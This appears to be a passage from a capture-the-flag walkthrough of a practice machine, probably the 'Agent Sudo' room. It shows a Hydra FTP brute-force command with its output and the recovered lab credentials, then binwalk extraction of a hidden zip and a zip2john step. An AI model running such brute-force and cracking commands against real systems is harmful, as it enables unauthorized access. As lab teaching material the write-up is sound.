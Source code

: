 c) `What is the agent name?`
* chris

### Hash cracking and brute-force
`Done enumerate the machine? Time to brute your way out.`

a) `FTP password`
* crystal

Using Hydra, I brute forced the ftp password for chris resulting in ...
```
hydra -l chris -P xato-net-10-million-passwords-10000.txt ftp://10.10.141.49
[21][ftp] host: 10.10.141.49   login: chris   password: crystal
```


FTP Credentials: `chris:crystal`


Inside the chris' ftp directory I found two images and `To_agentJ.txt`...

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory.
Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C

```

b) `Zip file password`
* alien

It looks like this has suddenly become a stego challenge. Well, lets see what we have. I downloaded all of the files in Chris' directory to my machine. 


In the `cutie.png` I found a hidden .zip and .txt files.
```
$ binwalk --extract *.png                                                                                        

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22

```

I used zip2john to convert the .zip file into a format that john the ripper would be able to crack the password for. 

```
zip2john 8702.zip > output.txt                                                                                 
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type

```
